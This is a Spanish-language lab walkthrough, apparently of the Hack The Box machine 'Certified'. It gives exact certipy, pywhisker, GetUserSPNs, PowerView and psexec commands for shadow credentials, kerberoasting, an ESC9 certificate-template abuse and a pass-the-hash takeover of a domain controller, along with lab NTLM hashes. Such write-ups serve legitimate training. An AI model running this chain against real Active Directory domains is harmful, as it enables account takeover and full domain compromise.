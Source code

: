 # Certified

Tags: [[_ad]],[[_bloodhoundEnum]],[[_permissionAbuse]]

## Primeros pasos
(Reconocimiento).

<span style="color:#07b4f2">Organizamos</span> <span style="color:#ff2dc0">TMUX</span>.
<span style="color:#07b4f2">Activamos</span> <span style="color:#ff2dc0">VPN</span>.

Le <span style="color:#07b4f2">hacemos</span> un <span style="color:#ff2dc0">ping</span> <span style="color:#07b4f2">a</span> la <span style="color:#ff2dc0">máquina</span>. (<span style="color:#379075">Está activa o no</span>).
<span style="color:#bef202">Posible</span> <span style="color:#ff2dc0">máquina Windows</span>.

<span style="color:#07b4f2">Ponemos</span> la <span style="color:#ff2dc0">IP</span> de la <span style="color:#ff2dc0">máquina</span> <span style="color:#07b4f2">en</span> un <span style="color:#07b4f2">lugar visible</span>.
<span style="color:#07b4f2">Creamos</span> un <span style="color:#07b4f2">directorio</span> <span style="color:#07b4f2">como</span> la <span style="color:#ff2dc0">IP</span> o <span style="color:#07b4f2">nombre</span> de la <span style="color:#ff2dc0">máquina</span>.
<span style="color:#07b4f2">Creamos</span> los <span style="color:#07b4f2">directorios</span> de <span style="color:#07b4f2">trabajo</span>.

<span style="color:#bef202">Empezamos el escaneo con</span> <span style="color:#ff2dc0">NMAP</span>. <span style="color:#379075">Otro escaneo de puertos comunes por posibles falsos negativos</span>.
En este caso <span style="color:#07b4f2">no buscamos</span> <span style="color:#ff2dc0">codename</span> con <span style="color:#ff2dc0">launchpad</span>.

+ <span style="color:#ff669c">Puertos abiertos</span>

Son <span style="color:#07b4f2">muchos</span> <span style="color:#ff669c">puertos</span> abiertos, iremos <span style="color:#ff2dc0">enumerando</span> <span style="color:#07b4f2">de a poco</span>.

<span style="color:#ff669c">88</span> - Kerberos.
<span style="color:#ff669c">445</span> - SMB.
<span style="color:#ff669c">389</span> - LDAP.


## Investigación (Intrusión)
(Reconocimiento/Enumeración).

Importante.
<span style="color:#ecacb6">As is common in real life Windows pentests, you will start the Certified box with credentials for the following account: judith.mader / judith09</span>
Así que <span style="color:#07b4f2">tenemos</span> <span style="color:#ff2dc0">credenciales</span>.


<span style="color:#ff669c">445</span>.
En el recurso <span style="color:#ecacb6">SYSVOL</span> hay <span style="color:#07b4f2">cositas</span>. Pero <span style="color:#07b4f2">no tanto</span>.

Volvemos a <span style="color:#ff2dc0">enumerar</span> el <span style="color:#ecacb6">SYSVOL</span>, podría tener <span style="color:#07b4f2">cosas interesantes</span>.
Investigando una forma de <span style="color:#07b4f2">leer</span> lo que <span style="color:#07b4f2">contiene</span>, encontramos
https://github.com/jtpereyda/regpol
<span style="color:#88c425">pipx install regpol</span>
<span style="color:#88c425">regpol Registry.pol </span>y vemos <span style="color:#07b4f2">información</span> en <span style="color:#ff2dc0">Hex</span>.
<span style="color:#88c425">regpol Registry.pol  --raw-data 0</span> :    ver la <span style="color:#07b4f2">información mejor representada </span>de un índice.
Sin embargo, la información <span style="color:#07b4f2">no ayuda</span> mucho.
<span style="color:#bef202">Vamos al 389</span>.


<span style="color:#ff669c">389</span>.
<span style="color:#ff2dc0">Enumeramos</span> y tenemos los <span style="color:#ecacb6">usuarios</span> del <span style="color:#ff2dc0">dominio</span>. Pero <span style="color:#07b4f2">no</span> encontramos <span style="color:#07b4f2">mucho</span>.

Regresamos a <span style="color:#07b4f2">probar cosas</span> e intentar de todo, pero nada.

Investigado <span style="color:#07b4f2">encontramos</span>
https://github.com/ShutdownRepo/pywhisker?tab=readme-ov-file, donde <span style="color:#07b4f2">comprendemos</span> que podemos <span style="color:#07b4f2">modificar</span> el <span style="color:#ff2dc0">atributo</span> <span style="color:#ecacb6">msDS-KeyCredentialLink</span>  de un <span style="color:#ecacb6">user</span>/<span style="color:#ecacb6">computer</span>.
Instalamos lo necesario.
<span style="color:#ecacb6">1.-</span> <span style="color:#ff2dc0">Clonamos</span> https://github.com/ShutdownRepo/pywhisker
<span style="color:#88c425">git checkout -f ec30ba5759d57ead54341f58289090a9dc01249a</span> :    migramos a esta <span style="color:#07b4f2">versión anterior</span>.
<span style="color:#88c425">pip install pyopenssl --break-system-packages --upgrade</span> :    lo <span style="color:#07b4f2">actualizamos</span>, por unos <span style="color:#07b4f2">problemillas</span>.
<span style="color:#ecacb6">2.-</span> <span style="color:#ff2dc0">Clonamos</span> https://github.com/dirkjanm/PKINITtools/ (<span style="color:#379075">no lo usamos, pero se entiende lo que hace</span>).
<span style="color:#ecacb6">3.-</span> <span style="color:#88c425">pip3 install certipy-ad --break-system-packages</span>

Cómo <span style="color:#07b4f2">prodecer</span>.
+<span style="color:#ff2dc0">Sincronizamos</span> nuestro <span style="color:#07b4f2">reloj al del</span> <span style="color:#ff2dc0">KDC</span> (<span style="color:#379075">por lo regular es el DC mismo</span>).
<span style="color:#bef202">Pasos</span>.
+Usar lo del <span style="color:#07b4f2">punto</span> <span style="color:#ecacb6">3</span>.
<span style="color:#88c425">certipy find -u judith.mader@corp.local -p "judith09" -dc-ip 10.10.11.41</span> :    <span style="color:#ff2dc0">enumerar</span> los <span style="color:#ff2dc0">AD CS certificate templates</span> (<span style="color:#379075">es decir, templates vulnerables</span>). Me <span style="color:#07b4f2">devuelve archivos</span> que <span style="color:#07b4f2">contienen</span> los <span style="color:#ff2dc0">templates vulnerables</span>.
<span style="color:#88c425">cat 20240525140107_Certipy.txt | grep "User"</span> :    <span style="color:#07b4f2">filtramos</span> por uno.
https://www.rbtsec.com/blog/active-directory-certificate-services-adcs-esc4/ :    <span style="color:#07b4f2">identificar</span> los <span style="color:#ff2dc0">template vulnerables</span>.

<span style="color:#88c425">certipy req -username "judith.mader@certified.htb" -p "judith09" -ca certified-DC01-CA -target "DC01.certified.htb" -template User -subject "CN=management service,CN=Users,DC=certified,DC=htb"</span> :    nos <span style="color:#07b4f2">da</span> un <span style="color:#ecacb6">.pfx</span>
<span style="color:#ecacb6">-template User</span> es uno casi por <span style="color:#07b4f2">defecto</span>.
<span style="color:#ecacb6">-ca certified-DC01-CA</span> nos <span style="color:#07b4f2">lo da cuando</span> usamos <span style="color:#88c425">cerpity find</span>...
<span style="color:#379075">Puede que --subjetc ... no haga falta</span>.

<span style="color:#88c425">certipy auth -pfx judith.mader.pfx -dc-ip 10.10.11.41</span> :    nos <span style="color:#ff2dc0">autenticamos</span> para <span style="color:#07b4f2">obtener</span> su <span style="color:#ff2dc0">TGT</span> (<span style="color:#379075">.ccache</span>) <span style="color:#07b4f2">y se obtiene</span> el <span style="color:#ff2dc0">NTLM</span> de <span style="color:#ecacb6">judith.mader</span>, en este caso (<span style="color:#379075">preciso para usarlo después</span>).


+Usar lo de los <span style="color:#07b4f2">puntos</span> <span style="color:#ecacb6">1</span> y <span style="color:#ecacb6">3</span>.
<span style="color:#88c425">python3 pywhisker.py -d "certified.htb" -u "judith.mader" -H "8ec62ac86259004c121a7df4243a7a80" -t "management_svc" --action "add" </span>:    nos <span style="color:#07b4f2">da</span> un <span style="color:#ecacb6">.pfx</span> y su <span style="color:#ff2dc0">contraseña</span>.
Nos <span style="color:#07b4f2">aseguramos</span> que <span style="color:#07b4f2">no tenga otro</span> antes, <span style="color:#ecacb6">--action "clear"</span> para <span style="color:#07b4f2">limpar</span>.
<span style="color:#07b4f2">No</span> nos <span style="color:#07b4f2">muestra</span> el <span style="color:#ecacb6">.pfx</span>, hacemos
<span style="color:#88c425">pip uninstall pyOpenSSL asgiref  </span>
<span style="color:#88c425">sudo apt-get remove python3-asgiref  </span>
<span style="color:#88c425">pip install asgiref==3.7.2  </span>
<span style="color:#88c425">pip install pyOpenSSL==22.1.0 mitmproxy-rs==0.5.1 urwid-mitmproxy==2.1.1  </span>
<span style="color:#88c425">pip install --upgrade impacket</span>

<span style="color:#07b4f2">Podríamos utilizar</span> lo del <span style="color:#07b4f2">punto</span> <span style="color:#ecacb6">2</span>, pero <span style="color:#07b4f2">no va bien</span>, sin embargo, podemos <span style="color:#07b4f2">hacerlo</span> de<span style="color:#07b4f2"> distinta manera</span>.
https://i-tracing.com/blog/shadow-credentials/ :    <span style="color:#07b4f2">dos vías</span>, con <span style="color:#ff2dc0">PKINITtools</span> <span style="color:#07b4f2">o</span> <span style="color:#ff2dc0">Certipy</span> (<span style="color:#379075">la que usamos</span>).
<span style="color:#88c425">certipy cert -export -pfx dpLruvfm.pfx -password "JxARBHKgfFRjHpxxmYQc" -out management_svc.pfx</span> :    <span style="color:#ff2dc0">unprotected</span> <span style="color:#07b4f2">del</span> <span style="color:#ecacb6">.pfx </span>para <span style="color:#07b4f2">crear otro</span> <span style="color:#ecacb6">.pfx</span>
<span style="color:#ecacb6">-pfx dpLruvfm.pfx</span> y <span style="color:#ecacb6">-password "JxARBHKgfFRjHpxxmYQc"</span> es el que <span style="color:#07b4f2">creamos</span> con <span style="color:#ff2dc0">pywhisker.py</span>

<span style="color:#88c425">certipy auth -pfx management_svc.pfx -username "management_svc" -domain "certified.htb"</span> :    nos <span style="color:#ff2dc0">autenticamos</span> para <span style="color:#07b4f2">obtener su</span> <span style="color:#ff2dc0">TGT</span> (<span style="color:#379075">.ccache</span>) y con él, <span style="color:#07b4f2">su</span> <span style="color:#ff2dc0">NTML</span> Hash.

<span style="color:#ecacb6">management_svc:a091c1832bcdd4677c28b5a6a1295584 </span>(<span style="color:#379075">NTLM</span>).


<span style="color:#ff669c">88</span>.
<span style="color:#07b4f2">Probamos</span> a ver si hay <span style="color:#ecacb6">usuarios</span> <span style="color:#ff2dc0">kerberoastables</span>.
<span style="color:#88c425">GetUserSPNs.py certified.htb/judith.mader:judith09</span> :    esto porque<span style="color:#07b4f2"> podemos probarlo teniendo</span> <span style="color:#ff2dc0">credenciales</span> de <span style="color:#07b4f2">cualquier</span> <span style="color:#ecacb6">usuario</span>.
Y nos <span style="color:#07b4f2">sale</span> el <span style="color:#ecacb6">usuario</span>
<span style="color:#ecacb6">certified.htb/management_svc.DC01</span>

Pues <span style="color:#07b4f2">solicitamos</span> un <span style="color:#ff2dc0">TGS</span>.
<span style="color:#88c425">GetUserSPNs.py certified.htb/judith.mader:judith09 -request</span> :    <span style="color:#07b4f2">solicita</span> de <span style="color:#07b4f2">todos</span> los que <span style="color:#07b4f2">haya</span>, en <span style="color:#07b4f2">este caso</span> es solo <span style="color:#07b4f2">uno</span>.

---
<span style="color:#07b4f2">Recordemos</span> que para este <span style="color:#07b4f2">tipo</span> de <span style="color:#07b4f2">ataques</span> debemos estar <span style="color:#07b4f2">sincronizados</span> al <span style="color:#07b4f2">reloj</span> del <span style="color:#ff2dc0">DC</span>.
<span style="color:#88c425">date -s "$(curl -s -X GET "http://10.10.11.41:5985" -I | grep "Sat" | cut -d' ' -f2,3,4,5,6,7)"</span> 
<span style="color:#88c425">date --set="$(curl -s -X GET "http://10.10.11.41:5985" -I | grep -oP '\d{1,2}:\d{1,2}:\d{1,2}')"</span> :    la <span style="color:#07b4f2">idea</span> con esto, es que <span style="color:#07b4f2">antes</span> <span style="color:#ff2dc0">seteemos</span> la <span style="color:#07b4f2">fecha</span>, y <span style="color:#07b4f2">depués</span> la <span style="color:#07b4f2">hora</span>, para evitar problemas.
O <span style="color:#07b4f2">haciendo</span>
<span style="color:#88c425">ntpdate -s 10.10.11.41</span>

De esta manera <span style="color:#07b4f2">nos</span> <span style="color:#ff2dc0">sincronizamos</span> bien. (<span style="color:#379075">Es cuestión de probar varias veces y/o de distintas formas</span>).

---

El <span style="color:#ff2dc0">Hash</span> <span style="color:#07b4f2">obtenido</span> lo podemos <span style="color:#07b4f2">tratar</span> de <span style="color:#ff2dc0">romper</span>.
Sin embargo, <span style="color:#07b4f2">no se puede</span>.

<span style="color:#bef202">Volvamos al 445</span>.


## Escalada

Enumerar todo el sistema.
Estamos como el usuario <span style="color:#ecacb6">management_svc</span>

Vamos a <span style="color:#ff2dc0">enumerar</span> <span style="color:#07b4f2">con</span> <span style="color:#ff2dc0">BloodHound</span>.
Recordemos <span style="color:#07b4f2">descargar</span> el <span style="color:#ecacb6">PowerView.ps1</span>
<span style="color:#88c425">Import-Module .\PowerView.ps1</span>

<span style="color:#ecacb6">management_svc</span> tiene <span style="color:#ff2dc0">GenericAll</span> <span style="color:#07b4f2">sobre</span> <span style="color:#ecacb6">CA_OPERATOR</span>, me permite <span style="color:#07b4f2">hacer cosas</span>. 
<span style="color:#bef202">2 maneras</span>.

<span style="color:#ecacb6">1.-</span> <span style="color:#07b4f2">Cambiarle su</span> <span style="color:#ff2dc0">SPN</span> para <span style="color:#07b4f2">volverlo</span> <span style="color:#ff2dc0">Kerberoastable</span>, y obtener su <span style="color:#ff2dc0">SPNTicket</span> para romperlo.

2.- <span style="color:#ff2dc0">Resetearle</span> su <span style="color:#ecacb6">password</span>.
<span style="color:#88c425">Set-DomainUserPassword -Identity ca_operator -AccountPassword (ConvertTo-SecureString 'CaOpeRator1234$!' -AsPlainText -Force) -Verbose</span> 
La <span style="color:#ecacb6">contraseña</span> debe ser <span style="color:#07b4f2">robusta</span>.


Con cualquiera forma, ya teniendo su contraseña podríamos tratar de ejecutar <span style="color:#ff2dc0">comandos</span> <span style="color:#07b4f2">como</span> <span style="color:#ecacb6">ca_operator</span> (<span style="color:#379075">pero no en este caso</span>).

<span style="color:#07b4f2">Buscar</span> <span style="color:#ff2dc0">templates vulnerables</span> para el <span style="color:#ecacb6">ca_operator</span>.
+<span style="color:#07b4f2">Obtenemos</span> la <span style="color:#ff2dc0">contraseña</span> de <span style="color:#ecacb6">ca_operator</span> (<span style="color:#379075">se la cambiamos u otra forma</span>).
+Usamos <span style="color:#ff2dc0">Certipy</span> 
<span style="color:#88c425">certipy find -dc-ip 10.10.11.41 -u ca_operator -p 'CaOpeRator1234$!'</span>
Podemos <span style="color:#07b4f2">usar</span> los <span style="color:#ff2dc0">parámetros</span> <span style="color:#ecacb6">-vulnerable</span> <span style="color:#ecacb6">-enabled </span>para mayor <span style="color:#07b4f2">precisión</span>.
+<span style="color:#07b4f2">Filtramos</span> por un <span style="color:#ff2dc0">Template vulnerable</span>.
<span style="color:#07b4f2">Encontramos</span> uno llamado <span style="color:#ecacb6">CertifiedAuthentication</span>, donde <span style="color:#ecacb6">ca_operator</span> tiene permisos.
Y es <span style="color:#ff2dc0">vulnerable</span> para el <span style="color:#ecacb6">ESC9</span>, nos dice que <span style="color:#ecacb6">ca_operator</span> puede <span style="color:#ff2dc0">inscribirse</span> y la <span style="color:#ff2dc0">template</span> <span style="color:#07b4f2">no tiene</span> una <span style="color:#ff2dc0">security extension.</span>

<span style="color:#bef202">Tenemos 2 vías</span>.
+ Aprovechamos el <span style="color:#ecacb6">CertifiedAuthentication</span> y los <span style="color:#ff2dc0">permisos</span> adecuados.
<span style="color:#07b4f2">Lo hacemos</span> <span style="color:#ff2dc0">vulnerable</span> a <span style="color:#ecacb6">ESC1</span> <span style="color:#07b4f2">modificando</span> el <span style="color:#ff2dc0">template</span>.
https://www.rbtsec.com/blog/active-directory-certificate-services-adcs-esc4/#elementor-toc__heading-anchor-3

+<span style="color:#07b4f2">Modificamos</span> el <span style="color:#ff2dc0">template</span> <span style="color:#07b4f2">usando</span> el usuario <span style="color:#ecacb6">ca_operator</span>
+Hacemos un <span style="color:#ff2dc0">request</span> al <span style="color:#ecacb6">administrador</span> del <span style="color:#ff2dc0">dominio</span> <span style="color:#07b4f2">usando</span> el <span style="color:#ff2dc0">template</span> <span style="color:#ecacb6">CertifiedAuthentication</span> <span style="color:#07b4f2">modificado</span>.
+Hacemos una <span style="color:#ff2dc0">request</span> al <span style="color:#ff2dc0">dominio</span> para <span style="color:#07b4f2">obtener</span> el <span style="color:#ff2dc0">TGT</span> del <span style="color:#ecacb6">administrador</span> <span style="color:#07b4f2">y con ello su</span> <span style="color:#ff2dc0">NTLM</span>.
<span style="color:#379075">No pongo instrucciones porque no me sirvió mucho</span>.

+ <span style="color:#07b4f2">Aprovechamos</span> el <span style="color:#ecacb6">CertifiedAuthentication</span> <span style="color:#07b4f2">que tiene el</span> <span style="color:#ecacb6">ESC9</span>.
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation, la <span style="color:#07b4f2">parte</span> de <span style="color:#ecacb6">ESC9</span> porque <span style="color:#07b4f2">ese</span> <span style="color:#ff2dc0">template</span> es el <span style="color:#ff2dc0">vulnerable</span> en <span style="color:#07b4f2">este caso</span>.

Recordemos que <span style="color:#ecacb6">management_svc</span> tiene <span style="color:#ff2dc0">GenericAll</span> <span style="color:#07b4f2">sobre</span> <span style="color:#ecacb6">ca_operator</span>
+Usamos <span style="color:#ff2dc0">Shadow Credentials</span> para <span style="color:#07b4f2">obtener</span> el <span style="color:#ff2dc0">NTLM</span> de <span style="color:#ecacb6">ca_operator</span>
<span style="color:#88c425">certipy shadow auto -username management_svc@certified.htb -hashes 'a091c1832bcdd4677c28b5a6a1295584' -account ca_operator</span> :    nos <span style="color:#07b4f2">da</span> el <span style="color:#ff2dc0">NTLM</span> directamente.
 
+Le <span style="color:#07b4f2">modificamos</span> el <span style="color:#ff2dc0">userPrincipalName</span> de <span style="color:#ecacb6">ca_operator</span> <span style="color:#07b4f2">para que sea</span> <span style="color:#ecacb6">Administrator</span>, <span style="color:#07b4f2">omitiendo</span> el <span style="color:#ecacb6">@certified.thb</span>
<span style="color:#88c425">certipy account update -username management_svc@certified.htb -hashes 'a091c1832bcdd4677c28b5a6a1295584' -user ca_operator -upn Administrator</span>
<span style="color:#07b4f2">No</span> da <span style="color:#07b4f2">problemas</span>, puesto que<span style="color:#ecacb6"> Administrator@certified.htb</span> es <span style="color:#07b4f2">distinto como</span> <span style="color:#ff2dc0">userPrincipalName</span> <span style="color:#07b4f2">del</span> <span style="color:#ecacb6">Administrator</span>.

+<span style="color:#07b4f2">Solicitamos</span> la <span style="color:#ff2dc0">certificate template</span> <span style="color:#ecacb6">CertifiedAuthentication</span>, que es <span style="color:#ff2dc0">vulnerable</span> <span style="color:#07b4f2">para</span> <span style="color:#ecacb6">ESC9</span>.
<span style="color:#88c425">certipy req -username ca_operator@certified.htb -hashes '387ebed2f7c26bea5ac35e2a750b6b43' -ca certified-DC01-CA -template CertifiedAuthentication</span> :    <span style="color:#07b4f2">nos da</span> un <span style="color:#ecacb6">administrator.pfx</span>
<span style="color:#ecacb6">-ca certified-DC01-CA</span> <span style="color:#07b4f2">lo vemos en</span> los <span style="color:#ff2dc0">archivos</span> de los <span style="color:#ff2dc0">templates</span>, <span style="color:#07b4f2">es el</span> <span style="color:#ff2dc0">Certificate Authorities</span>. <span style="color:#379075">Lo metimos en el /etc/hosts pero quizá no haga falta</span>.
Llegamos a ver que el <span style="color:#ff2dc0">userPrincipalName</span> <span style="color:#07b4f2">del</span> <span style="color:#ff2dc0">certificado</span> <span style="color:#07b4f2">refleja el</span> <span style="color:#ecacb6">Administrator</span>, <span style="color:#07b4f2">sin ningún</span> "<span style="color:#ecacb6">object SID</span>".

+El <span style="color:#ff2dc0">userPrincipalName</span> de <span style="color:#ecacb6">ca_operator</span> <span style="color:#07b4f2">se revierte a</span> su <span style="color:#07b4f2">original</span>, <span style="color:#ecacb6">ca_operator@certified.htb</span>
<span style="color:#88c425">certipy account update -username management_svc@certified.htb -hashes 'a091c1832bcdd4677c28b5a6a1295584' -user ca_operator -upn ca_operator@certified.htb</span>

+<span style="color:#07b4f2">Nos</span> <span style="color:#ff2dc0">autenticamos</span> <span style="color:#07b4f2">con</span> el <span style="color:#ff2dc0">certificado</span> <span style="color:#07b4f2">emitido</span> para <span style="color:#07b4f2">obtener</span> el <span style="color:#ff2dc0">NTLM</span> de <span style="color:#ecacb6">Administrator@certified.htb</span>
<span style="color:#88c425">certipy auth -pfx administrator.pfx -domain certified.htb</span>
<span style="color:#ecacb6">-domain certified.htb</span> debido a <span style="color:#07b4f2">falta de especificación</span> de <span style="color:#ff2dc0">dominio</span> <span style="color:#07b4f2">en</span> el <span style="color:#ff2dc0">certificado</span>.

Con el <span style="color:#ff2dc0">NTLM</span> de <span style="color:#ecacb6">administrator</span>, <span style="color:#07b4f2">nos conectamos</span> con <span style="color:#ff2dc0">psexec</span> a la <span style="color:#ff2dc0">máquina víctima</span> y pa deeeentro.
Fin.
